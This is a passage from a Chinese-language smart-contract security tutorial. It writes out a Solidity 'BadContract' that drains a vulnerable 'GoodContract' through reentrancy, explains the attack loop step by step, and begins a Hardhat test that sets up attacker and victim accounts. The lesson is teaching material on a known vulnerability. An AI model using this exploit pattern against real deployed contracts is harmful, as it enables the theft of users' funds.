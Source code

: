 现在让我们在`contracts `目录下创建另一个文件，称为`BadContract.sol`。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./GoodContract.sol";

contract BadContract {
    GoodContract public goodContract;
    constructor(address _goodContractAddress) {
        goodContract = GoodContract(_goodContractAddress);
    }

    // Function to receive Ether
    receive() external payable {
        if(address(goodContract).balance > 0) {
            goodContract.withdraw();
        }
    }

    // Starts the attack
    function attack() public payable {
        goodContract.addBalance{value: msg.value}();
        goodContract.withdraw();
    }
}
```

这个合约要有趣得多，让我们了解一下是怎么回事。

在构造函数中，该合约设置了`GoodContract`的地址并初始化了它的一个实例。

`attack`函数是一个`payable`函数，它从攻击者那里获取一些ETH，将其存入`GoodContract`，然后调用`GoodContract`中的`withdraw`函数。

此时，`GoodContract`将看到`BadContract`的余额大于0，所以它将向`BadContract`反回一些ETH。然而，这样做将触发`BadContract`的`receive()`函数。

`receive()`函数将检查`GoodContrac`t是否仍有大于0的ETH余额，并再次调用`GoodContract`中的`withdraw`函数。

这将形成一个循环，`GoodContract`将不断向`BadContract`发送资金，直到它的资金完全耗尽，然后最终达到将`BadContract`的余额更新为0并完成交易执行。此时，由于重入，攻击者已经成功地从`GoodContract`窃取了所有的ETH。

我们将利用Hardhat测试来证明这种攻击确实有效，以确保`BadContract`确实在消耗`GoodContract`的所有资金。你可以阅读[Hardhat Docs for Testing](https://hardhat.org/tutorial/testing-contracts.html)，以熟悉测试环境。

让我们首先在测试文件夹下创建一个名为`attack.js`的文件，并在那里添加以下代码。

```js
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { parseEther } = require("ethers/lib/utils");
const { ethers } = require("hardhat");

describe("Attack", function () {
  it("Should empty the balance of the good contract", async function () {
    // Deploy the good contract
    const goodContractFactory = await ethers.getContractFactory("GoodContract");
    const goodContract = await goodContractFactory.deploy();
    await goodContract.deployed();

    //Deploy the bad contract
    const badContractFactory = await ethers.getContractFactory("BadContract");
    const badContract = await badContractFactory.deploy(goodContract.address);
    await badContract.deployed();

    // Get two addresses, treat one as innocent user and one as attacker
    const [_, innocentAddress, attackerAddress] = await ethers.getSigners();

```